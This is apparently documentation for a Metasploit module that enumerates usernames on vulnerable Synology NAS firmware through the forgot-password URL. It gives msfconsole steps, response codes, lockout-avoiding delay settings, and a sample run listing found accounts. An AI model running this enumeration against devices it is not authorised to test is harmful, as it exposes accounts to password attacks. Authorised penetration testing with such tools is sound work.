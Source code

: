 ## Vulnerable Application

This module attempts to enumerate users on the Synology NAS by sending GET requests
for the forgot password URL. The Synology NAS will respond differently if a user is
present or not. These count as login attempts, and the default is 10 logins in 5min to
get a permanent block.  Set delay accordingly to avoid this, as default is permanent.

Vulnerable DSMs are:
 * DSM 6.1 < 6.1.3-15152
 * DSM 6.0 < 6.0.3-8754-4
 * DSM 5.2 < 5.2-5967-04

Enumeration is case insensitive.

To turn off Auto Block: Control Panel > Security > Auto Block.

To unblock: Control Panel > Security > Auto Block > Allow/Block List > Block List.

### Responses

The server responds with a JSON object and a 'msg' key.  The values translate as:

 * msg 1 - means user can login to GUI
 * msg 2 - means user exists but no GUI login
 * msg 3 - means feature disabled, or patched
 * msg 4 - means no user
 * msg 5 - means auto block is enabled and youre blocked. Default is 10 login attempts, and these

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/synology_forget_passwd_user_enum```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set delay [seconds]```
  6. You should hopefully find some usernames

## Options

### Delay

The delay in seconds between enumeration attempts.  Default lockout policy is 10 attempts in 5min,
so this should avoid the lockout.  Default is `31`.

### USER_LIST

The username list to use, defaults to `data/wordlists/unix_users.txt`

## Scenarios

### DS412+ with DSM 5.2-5644 with auto block turned off

  ```
  [*] Processing syn_login.rb for ERB directives.
  resource (syn_login.rb)> use auxiliary/scanner/http/synology_forget_passwd_user_enum
  resource (syn_login.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (syn_login.rb)> set delay 0
  delay => 0
  resource (syn_login.rb)> run
  [+] admin - admin group
  [+] avahi - no mail or no priviege
  [+] ftp - no mail or no priviege
  [+] guest - no mail or no priviege
  [+] lp - no mail or no priviege
  [+] mysql - no mail or no priviege
  [+] nobody - no mail or no priviege
  [+] ntp - no mail or no priviege
  [+] postfix - no mail or no priviege
  [+] postgres - no mail or no priviege
  [+] root - no mail or no priviege
  [+] ROOT - no mail or no priviege
  [+] http://2.2.2.2:5000/ - Users found: ROOT, admin, avahi, ftp, guest, lp, mysql, nobody, ntp, postfix, postgres, root
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

